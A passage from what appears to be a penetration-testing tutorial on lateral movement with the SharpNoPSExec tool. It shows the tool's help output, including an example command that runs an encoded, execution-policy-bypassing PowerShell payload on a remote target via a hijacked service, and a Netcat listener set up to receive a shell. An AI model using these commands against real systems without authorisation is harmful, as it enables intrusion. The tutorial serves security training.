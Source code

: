 Executing the tool without parameters we will see some help and usage information.

```powershell
PS C:\Tools> .\SharpNoPSExec.exe

███████╗██╗  ██╗ █████╗ ██████╗ ██████╗ ███╗   ██╗ ██████╗ ██████╗ ███████╗███████╗██╗  ██╗███████╗ ██████╗
██╔════╝██║  ██║██╔══██╗██╔══██╗██╔══██╗████╗  ██║██╔═══██╗██╔══██╗██╔════╝██╔════╝╚██╗██╔╝██╔════╝██╔════╝
███████╗███████║███████║██████╔╝██████╔╝██╔██╗ ██║██║   ██║██████╔╝███████╗█████╗   ╚███╔╝ █████╗  ██║
╚════██║██╔══██║██╔══██║██╔══██╗██╔═══╝ ██║╚██╗██║██║   ██║██╔═══╝ ╚════██║██╔══╝   ██╔██╗ ██╔══╝  ██║
███████║██║  ██║██║  ██║██║  ██║██║     ██║ ╚████║╚██████╔╝██║     ███████║███████╗██╔╝ ██╗███████╗╚██████╗
╚══════╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝     ╚═╝  ╚═══╝ ╚═════╝ ╚═╝     ╚══════╝╚══════╝╚═╝  ╚═╝╚══════╝ ╚═════╝

Version: 0.0.3
Author: Julio Ureña (PlainText)
Twitter: @juliourena

Usage:
SharpNoPSExec.exe --target=192.168.56.128 --payload="c:\windows\system32\cmd.exe /c powershell -exec bypass -nop -e ZQBjAGgAbwAgAEcAbwBkACAAQgBsAGUAcwBzACAAWQBvAHUAIQA="

Required Arguments:
--target=       - IP or machine name to attack.
--payload=      - Payload to execute in the target machine.

Optional Arguments:
--username=     - Username to authenticate to the remote computer.
--password=     - Username's password.
--domain=       - Domain Name, if no set a dot (.) will be used instead.

--service=      - Service to modify to execute the payload, after the payload is completed the service will be restored.
Note: If not service is specified the program will look for a random service to execute.
Note: If the selected service has a non-system account this will be ignored.

--help          - Print help information.

```

To perform lateral movement with `SharpNoPSExec`, we will need a listener as this tool will only allow us to execute code on the machine, but it won't give us an interactive shell as `PsExec` does. We can start listening with `Netcat`:

```shell
nc -lnvp 8080
Listening on 0.0.0.0 8080

```
